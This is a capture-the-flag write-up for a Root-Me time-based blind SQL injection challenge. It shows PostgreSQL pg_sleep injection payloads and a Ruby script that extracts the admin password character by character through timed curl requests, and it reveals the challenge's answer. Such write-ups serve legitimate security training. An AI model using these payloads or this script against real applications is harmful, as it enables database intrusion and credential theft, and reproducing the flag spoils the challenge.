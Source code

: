 # [SQL Injection Time Based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)

Time based SQL injections are exactly what they sound like, they are truly blind injections 
where the only clue that our query has worked is if the response time is a little slower.

Imagine a query that looks like this:

`SELECT * FROM users WHERE username='admin' AND SLEEP(5);`

This would get the `admin` user and "sleep" for five seconds before returning. We can use this 
to our advantage like other blind sql injections to exfiltrate data from the database.

So we find the area of the application that is "injectable". It's the member profile pages.

`action=member&member=1`

Even though we can't see anything because we aren't logged in, we can still trigger time delays.

This takes some trial and error until you figure out what type of database you are working with.

`member=1; select sleep(10)-- ` doesn't do anything (MySQL syntax)

`member=1; select pg_sleep(10)--` does! So we are working with a PostgresQL database.

Now we need to figure out how long are `admin` password is with something like this:

`member=1; select case when length(password)>10 then pg_sleep(10) else pg_sleep(0) end from users where id=1--`

This will sleep if the `admin` password is over 10 characters. And it does sleep, so we can 
keep iterating until we find the exact password length. We finally find that the password is 
13 characters long with:

`member=1; select case when length(password)=13 then pg_sleep(10) else pg_sleep(0) end from users where id=1--`

Now that we know the length of the password we can write a script to brute force it!

```ruby
allChars = ('!'..'~').to_a.sort
pass = ""
url = "http://challenge01.root-me.org/web-serveur/ch40/"
13.times do |i|
  charset = allChars
  while charset.length > 1
    curr = (charset.length - 1) / 2
    char = charset[curr]
    puts "Password(#{i}/13): #{pass}, Testing: #{char}(#{char.ord})"

    injection = "action=member&member=1;select case when "
    injection += "ascii(substr(password,#{pass.length+1},1))>#{char.ord} "
    injection += "then pg_sleep(10) else pg_sleep(0) end from users where id=1--"

    start_time = Time.now
    req = `curl '#{url}?#{injection}' -H 'Cookie: PHPSESSID=qscevnc0cqdj68daqcqrkvvpb4; uid=wKgbZFzuZa+PRTr8Dw2qAg=='`
    total_time = Time.now - start_time

    if total_time > 2
      charset = charset[(curr+1)..-1]
    else
      charset = charset[0..curr]
    end
    system('clear')
  end
  pass += charset[0]
end

puts "Password: #{pass}"
```

And we got our password!

Password is: **T!m3B@s3DSQL!**


